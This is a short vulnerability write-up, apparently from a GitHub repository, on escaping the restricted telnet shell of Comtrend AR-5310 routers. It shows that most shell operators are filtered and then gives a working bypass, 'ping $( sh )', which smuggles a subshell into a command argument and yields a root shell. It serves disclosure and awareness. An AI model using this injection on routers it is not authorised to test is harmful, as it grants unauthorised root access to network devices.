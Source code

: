 **Disclaimer: All content here is to raise awareness and is not intended for malicious use.**

Vulnerable product: Comtrend AR-5310 , firmware version: GE31-412SSG-C01_R10.A2pG039u.d24k

TL;DR: A local user can bypass the restricted shell using the command substitution operator $( commmand )

Comtrend AR 5310 routers have a restricted shell, the list of commands a user can execute is

[ ? help logout exit quit reboot ads lxdslctl xtm loglevel logdest virtualserver ddns dumpcfg 
dumpmdm meminfo psp dumpsysinfo dnsproxy syslog ifconfig ping sntp sysinfo tftp wlan wlctl
vlanctl arp defaultgateway dhcpserver dns lan lanhosts passwd ppp restoredefault route
nslookup traceroute save uptime exitOnIdle wan build version serialnumber modelname acccntr
upnp urlfilter timeres tr69cfg logouttime ipneigh dhcp6sinfo nat mcpctl ]



Usual terminal constructs like:
 - the command separator ";" 
 - the control operator  "&"  (run in forground) 
 - the redirection operator (pipe) "|" 
 - the command substitution operator "`"
 
are all filtered as shown here :
```
 > ;
Warning: operator ; is not supported!
telnetd:error:476.449:processInput:490:unrecognized command 
 > |
Warning: operator | is not supported!
telnetd:error:484.871:processInput:490:unrecognized command 
 > &
Warning: operator & is not supported!
telnetd:error:487.421:processInput:490:unrecognized command 
 > `
Warning: operator ` is not supported!
telnetd:error:495.334:processInput:490:unrecognized command 
```

Still the $ operator is not filtered:
```
 > $
telnetd:error:497.862:processInput:490:unrecognized command $
```

Here i came to the conclusion that invoking a command with $( subcommand ) as argument would 
give an obvious shell
```
> ping $( sh )                                                              
exec >&2                                                                     
ps x | grep telnet                                                           
18333 root      4164 S    telnetd -m 0                                       
18334 root      4168 S    telnetd -m 0                                       
```

**EOF**

